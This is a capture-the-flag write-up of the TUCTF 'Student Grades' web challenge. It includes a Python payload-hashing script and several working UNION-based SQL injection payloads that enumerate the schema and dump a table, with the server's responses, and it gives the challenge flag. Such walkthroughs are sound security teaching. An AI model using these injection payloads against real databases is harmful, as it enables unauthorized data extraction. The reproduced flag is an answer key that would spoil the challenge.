

# Student Grades (Web, 50pts)

We are trying to find out what our grade was, but we don't seem to be in the database...

Can you help us out?

http://104.199.151.39/index.html


## Solution

We can see web application to check some user grades:


When username is entered and 'Check my grades' pressed, little JavaScript code is executed sending AJAX request after some additional data manipulation:

```JavaScript
document.getElementById('submit').addEventListener('click',
                        function(event){
                          event.preventDefault();
                          var input = document.getElementById('info');
                          //var query = 'SELECT * from Names where name=\'' + input.value + '\'';
                          var inp_str = input.value;
                          inp_str = inp_str.replace(/\W+/g, " ");
                          var md5_str = md5(inp_str);
                          var send_str = inp_str+' '+md5_str;
                          var post_data = {name: send_str, submit:1};
                          $.ajax({
                              type: "POST",
                              url: "/postQuery.php",
                              data: post_data,
                              success: function(data){document.getElementById('results').innerHTML=data;}
                          });
                        }
                      );
```        
                      
After quick investigation of response, there's SQL query in the comment:


                      
                      
There's obvious SQL Injection flaw in this query (no data sanitization, used LIKE '%' and so on).





I've created simple script to generate payloads and prepare them using formula find in JavaScript code above:

```Python
#!/usr/bin/python
import hashlib

p = "boby' or '1'='1' order by 2,'"

h = hashlib.md5(p)
print "\n\n" + p + "+" + h.hexdigest()

```


First payload finds number of columns:

```
p = "boby' or '1'='1' order by 2,'"
```

Second payload execute UNION based SQL Injection:

```
p = "boby' and '1'='2' union select 1,'"
```

Next grabs table(s) and column(s):

```
name=boby' and '1'='2' union select group_concat(concat(table_name,0x20,column_name)),1 from information_schema.columns where table_schema=database() order by '+ba8883ed612a3d0b752759f01bbbf856
```


Result:
```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(table_name,0x20,column_name)),1 from information_schema.columns where table_schema=database() order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>tuctf_grades name,tuctf_grades grade,tuctf_info item,tuctf_info value,tuctf_junk item,tuctf_junk owner</td><td>1</td></tr>
```

Let's try table _tuctf___junk_:

```
name=boby' and '1'='2' union select group_concat(concat(item,0x20,owner)),1 from tuctf_junk order by '+ef78413334c102b4fc1426ec45325594
```

Result:

```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(item,0x20,owner)),1 from tuctf_junk order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>A random server Bob</td><td>1</td></tr>
```

Nope. No flag in this table.


Next, _tuctf___info_ table:

```
name=boby' and '1'='2' union select group_concat(concat(item,0x20,value)),1 from tuctf_info order by '+f4028ff3dafb50d3853d22ced070d8cc
```

And, here we go :)

```
<!--HI!--><!--Good auth!--><!--SELECT * FROM tuctf_grades WHERE name LIKE '%boby' and '1'='2' union select group_concat(concat(item,0x20,value)),1 from tuctf_info order by '%';--><tr><th>Name</th><th>Grade</th></tr><tr><td>flag TUCTF{v4ccinate_y0ur_databa5e5}</td><td>1</td></tr>
```


Flag:
```
TUCTF{v4ccinate_y0ur_databa5e5}
```
